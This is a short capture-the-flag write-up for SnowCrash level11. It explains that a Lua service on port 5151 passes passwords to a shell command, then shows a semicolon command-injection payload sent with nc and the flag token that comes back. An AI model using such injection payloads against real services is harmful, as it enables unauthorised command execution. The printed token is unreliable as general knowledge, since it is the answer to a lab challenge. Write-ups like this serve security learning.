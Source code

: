 # level11
We are welcomed by a single .lua script, which seems to be the process running on port 5151.  
Upon a connection, the program will prompt for a password and seem to be running the shell command `echo <submittedPassword> | sha1sum` via the lua command `io.popen`.

# Resolution

We will be injecting `; getflag > /tmp/flag;` inside the shell command and get our flag directly.
```sh
level11@SnowCrash:~$ nc localhost 5151
Password: \"; getflag > /tmp/token;\"
Erf nope..
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```